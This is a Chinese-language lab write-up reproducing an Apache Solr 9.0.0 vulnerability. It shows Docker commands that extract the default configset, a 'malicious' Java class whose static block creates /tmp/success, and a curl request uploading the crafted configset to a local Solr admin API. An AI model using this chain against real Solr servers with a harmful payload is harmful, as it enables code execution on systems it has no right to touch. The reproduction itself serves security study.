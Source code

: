## 漏洞复现

### 准备 Solr 默认配置文件

先以 root 权限进入 Solr 容器，打包默认的配置文件并复制出来，当然也可以从 Solr 源码中获得：

```plain
docker exec -ti -uroot solr9.0.0 bash
cd /opt/solr-9.0.0/server/solr/configsets/_default
tar cf conf.tar conf/
exit
docker cp solr9.0.0:/opt/solr-9.0.0/server/solr/configsets/_default/conf.tar ~/Desktop/test/
tar xf conf.tar
```

[![](assets/1708941329-4a9c9a60e516d08591de261a87ade643.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240210224834-770cf1cc-c823-1.png)

### 编译恶意 class

编译一个包名为`zk_backup_0.configs.conf1`的 Java 类（容器内的 Java 版本为 17，注意版本兼容问题）

```plain
package zk_backup_0.configs.conf1;
import java.io.File;
public class Exp {
    static {
        try {
            new File("/tmp/success").createNewFile();
        }catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```

### 上传配置文件`conf1`

将恶意 class 放入配置文件目录中，并打包上传到 Solr，命名为`conf1`

```plain
mv zk_backup_0/configs/conf1/Exp.class conf/
cd conf
zip -q -r conf1.zip *
curl -X POST --header "Content-Type:application/octet-stream" --data-binary @conf1.zip "http://127.0.0.1:8983/solr/admin/configs?action=UPLOAD&name=conf1"
```
